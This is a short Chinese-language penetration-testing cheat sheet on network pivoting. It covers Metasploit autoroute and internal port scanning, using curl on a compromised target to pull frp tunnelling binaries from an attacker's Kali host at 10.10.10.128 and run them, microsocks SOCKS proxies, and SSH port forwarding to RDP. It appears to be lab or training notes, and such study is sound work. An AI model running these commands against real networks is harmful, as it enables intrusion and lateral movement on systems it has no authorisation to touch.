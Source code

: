  
msf代理添加路由  

```
route # 查看路由信息
run autoroute -s 172.18.0.0/24 # 添加路由表
run autoroute -p # 查看路由表情况

```

  
进行内网探测（ip存活数量）以及端口扫描  

```
use auxiliary/scanner/portscan/tcp
set session 3
set rhosts 172.18.0.0/24
run

```

  
frp代理工具的使用方法  

```
# kali
python -m http.server 443

# 靶机
cd /tmp
curl -O 10.10.10.128:443/frpc 
curl -O 10.10.10.128:443/frpc.ini
chmod +x frpc

# kali
./frps -c frps.ini

# 靶机
./frpc -c frpc.ini

```

  
microsocks 轻量级的socks代理工具  

```
microsocks -1 -i listenip -p port -u user -P password -b bindaddr  # 参数绑定

microsocks -b 0.0.0.0 -p 1080   # 不用密码直接用

```

  
ssh端口转发  

```
ssh -CfNg -L 2021:192.168.110.132:3389 kali@192.168.110.128
# 132是靶机，128是kali
# 解释：这条命令的作用，在攻击机上建立一个本地ssh服务器的ssh隧道
# 将本地的2021端口的流量通过这个隧道转发到远程主机192.168.110.132的3389端口
# 重点如下：
# 这样，当你在本地机器上访问攻击机kali本地的2021端口时，实际上访问的是远程主机192.168.110.132的3389端口

```
